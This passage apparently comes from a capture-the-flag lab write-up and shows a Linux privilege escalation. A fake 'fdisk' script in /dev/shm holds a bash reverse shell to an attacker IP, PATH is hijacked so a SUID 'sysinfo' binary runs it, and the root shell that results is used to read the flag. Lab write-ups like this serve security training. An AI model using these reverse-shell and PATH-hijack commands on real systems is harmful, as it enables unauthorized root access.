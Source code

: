     bash -i >& /dev/tcp/10.10.14.20/443 0>&1
    theseus@ubuntu:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.20/443 0>&1' > fdisk
    theseus@ubuntu:/dev/shm$ chmod +x fdisk 



I'll test it and make sure it connects, and it does:



    theseus@ubuntu:/dev/shm$ ./fdisk



Now I'll update my current path to include `/dev/shm`:



    theseus@ubuntu:/dev/shm$ echo $PATH
    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
    theseus@ubuntu:/dev/shm$ export PATH="/dev/shm:$PATH"
    theseus@ubuntu:/dev/shm$ echo $PATH                  
    /dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games



Now when I run `sysinfo`, when it gets to the `fdisk` call, I get a
shell at my `nc` listener:



    theseus@ubuntu:/dev/shm$ sysinfo                                                                   
    ====================Hardware Info====================          
    H/W path           Device      Class      Description                                              
    =====================================================          
                                   system     VMware Virtual Platform
    /0                             bus        440BX Desktop Reference Platform
    ...[snip]...
    /0/46/0.0.0        /dev/cdrom  disk       VMware IDE CDR00
    /1                             system     

    ====================Disk Info====================



At `nc`:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.185.
    Ncat: Connection from 10.10.10.185:58406.
    root@ubuntu:/dev/shm# id
    uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)



And I can grab `root.txt`:



    root@ubuntu:/# cat /root/root.txt
    3f3721ee************************
